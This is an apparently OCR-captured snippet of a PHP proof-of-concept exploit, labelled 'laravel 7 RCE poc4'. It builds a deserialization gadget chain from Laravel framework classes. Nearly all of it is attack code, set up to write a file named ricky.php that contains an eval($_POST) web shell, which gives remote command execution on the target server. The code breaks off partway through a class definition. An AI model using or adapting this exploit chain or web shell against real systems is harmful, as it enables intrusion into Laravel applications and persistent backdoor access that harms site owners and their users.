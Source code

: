 ```

```

上传 shell 的 POP 链

```
<?php

/*
# -*- coding: utf-8 -*-
# @filename: laravel 7 RCE poc4
# @author: Ricky
# @ability: upload shell
*/

namespace Illuminate\Routing{
    class PendingResourceRegistration{
        protected $registrar;
        protected $name;
        protected $controller;
        protected $options;
        public function __construct($registrar, $name, $controller, $options)
{
            $this->registrar = $registrar;
            $this->name = $name;
            $this->controller = $controller;
            $this->options = $options;
        }
    }
}

namespace Illuminate\Notifications
{
    class ChannelManager
    {
        protected $container;
        protected $defaultChannel;
        protected $customCreators;

        function __construct($function, $parameter)
{
            $this->container = $parameter;
            $this->customCreators = ['x' => $function];
            $this->defaultChannel = 'x';
        }
    }
}

namespace Illuminate\Filesystem {
    class Filesystem{
        public $path = 'ricky.php';
        public $data = '<?php eval($_POST[ricky]);?>';
    }
}

namespace Illuminate\Auth {
    class RequestGuard {
        protected $user;
        protected $callback;
        protected $request = 'ricky.php';
        protected $provider = '<?php eval($_POST[ricky]);?>';
        public function __construct($callback) {
            $this->callback = $callback;
        }
```
